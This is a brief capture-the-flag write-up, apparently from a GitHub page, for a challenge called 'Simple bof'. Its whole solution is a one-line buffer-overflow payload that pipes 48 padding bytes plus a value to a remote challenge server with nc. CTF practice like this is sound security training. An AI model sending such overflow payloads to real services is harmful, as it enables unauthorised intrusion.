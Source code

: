 # Simple bof

> Want to learn the hacker's secret? Try to smash this buffer!

```
python -c "print('a'*48 + 'flag') " | nc thekidofarcrania.com 35235
````
